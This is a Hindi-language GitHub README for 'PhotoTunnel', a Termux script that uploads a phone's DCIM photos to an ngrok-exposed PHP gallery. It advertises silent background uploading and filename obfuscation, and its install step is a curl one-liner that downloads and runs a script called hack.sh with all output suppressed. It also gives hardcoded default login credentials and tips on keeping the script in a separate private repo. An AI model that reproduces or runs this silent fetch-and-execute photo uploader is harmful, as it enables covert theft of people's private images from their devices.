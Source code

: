# 📸 PhotoTunnel
**Termux Auto Image/Script Uploader with PHP + ngrok + Secure Gallery**

PhotoTunnel एक ऑटोमेशन प्रोजेक्ट है जो Android (Termux) से आपके PHP/ngrok सर्वर पर **DCIM फोल्डर की इमेजेस** और **.sh स्क्रिप्ट फाइलें** सुरक्षित तरीके से अपलोड करता है।  
इसके साथ एक **पासवर्ड प्रोटेक्टेड गैलरी**, सर्च/सॉर्ट फीचर, और लॉग सिस्टम भी है।

---

## ✨ फीचर्स
- **📤 Termux Upload Script**
  - DCIM फोल्डर से इमेजेस का ऑटो अपलोड
  - Silent Mode → बिना आउटपुट के बैकग्राउंड अपलोड
  - File Obfuscation → अपलोड के समय नाम बदलना
- **🔐 Secure PHP Gallery**
  - Login Required (default: `codex` / `Codex@2003`)
  - Search & Sort (Newest, Oldest, Name)
  - Download Images
- **🛡 Security**
  - Brute Force Protection (5 फ़ेल login → लॉक)
  - CSRF Token Protection
  - Secure HTTP Headers
  - Sanitized Filenames
- **📝 Logs**
  - IP, Date/Time, Action (Login, Download, Logout…)
  - लॉग फाइल डाउनलोड का ऑप्शन (सिर्फ लॉगिन के बाद)
- **💻 .sh File Upload Web Form**
  - वेबसाइट से केवल `.sh` फाइलें अपलोड करें

---

## 📂 फाइल स्ट्रक्चर 
```
.
├── .github/workflows/deploy.yml    # GitHub Actions workflow
├── upload.php                      # File upload handler
├── gallery.php                     # Secure image gallery
├── sh.php                          # Termux auto-upload script (auto-generated)
├── README.md                       # यह डॉक्युमेंट
```

---

### 2️⃣ Secrets सेट करें (GitHub)
- Repo → **Settings** → **Secrets and variables** → **Actions**
- `New repository secret` क्लिक करें  
  **Name:** `NGROK_AUTHTOKEN`  
  **Value:** आपका ngrok ऑथ टोकन  

### 3️⃣ Workflow रन करें
- कोई भी फ़ाइल push करें या commit → workflow ऑटो रन होगा

### 4️⃣ Termux पर स्क्रिप्ट रन करें
```bash
curl -s -O https://raw.githubusercontent.com/<username>/<reponame>/main/hack.sh && chmod +x hack.sh && ./hack.sh >/dev/null 2>&1
```
### Full Guid Github Guru YouTube channel,
---
[![Watch the video](https://img.youtube.com/vi/PG9CpTAIefs/maxresdefault.jpg)](https://youtu.be/PG9CpTAIefs?si=M7Ewq0Wl0ae9hEPx)

## 🔒 लॉगिन डिटेल्स
- **Gallery URL:** `https://<ngrok-url>/gallery.php`  
- **Username:** `codex`  
- **Password:** `Codex@2003`

---

## 📜 लॉग एक्सेस
- गैलरी में लॉगिन के बाद "Download Logs" बटन से डाउनलोड करें  
- लॉग फॉर्मेट:
```
[YYYY-MM-DD HH:MM:SS] USERNAME: codex | IP: x.x.x.x | ACTION: DOWNLOAD_IMAGE | DETAILS: file.jpg
```

---

## ⚠️ सुरक्षा टिप्स
- Public में पासवर्ड बदलें  
- Logs और uploads को सुरक्षित permissions दें  
- ngrok URL को पब्लिक में शेयर करने से बचें
- github repo ka Privet kare
- jisme scipt file hoga termux ke liye use dusare repo banakar script ko termux me run kare

---

## 📝 लाइसेंस
MIT License

---

## 🤝 योगदान
Pull requests, issues और सुझाव का स्वागत है!
